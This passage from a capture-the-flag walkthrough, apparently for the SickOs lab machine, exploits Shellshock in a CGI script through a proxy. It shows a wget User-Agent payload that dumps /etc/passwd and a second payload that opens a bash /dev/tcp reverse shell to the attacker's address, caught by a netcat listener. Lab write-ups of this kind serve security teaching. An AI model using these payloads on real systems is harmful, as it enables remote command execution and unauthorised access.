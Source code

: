 ```bash
↳ wget -qO- -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" -e use_proxy=yes -e http_proxy=192.168.43.202:3128 http://192.168.43.202/cgi-bin/status

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

Aha~ our request is accepted and it shows us the content of `etc/passwd` file. 

Now, we can make reverse shell connection with this vuln like PHP reverse shell before. Doing simple reverse shell with `/bin/bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1`

```bash
↳ wget -qO- -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/192.168.43.94/4443 0>&1" -e use_proxy=yes -e http_proxy=192.168.43.202:3128 http://192.168.43.202/cgi-bin/status
```

Uhuuu reverse shell again!

```bash
↳ nc -lvp 4443
Listening on [0.0.0.0] (family 0, port 4443)
Connection from 192.168.43.202 44354 received!
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@SickOs:/usr/lib/cgi-bin$ 
```
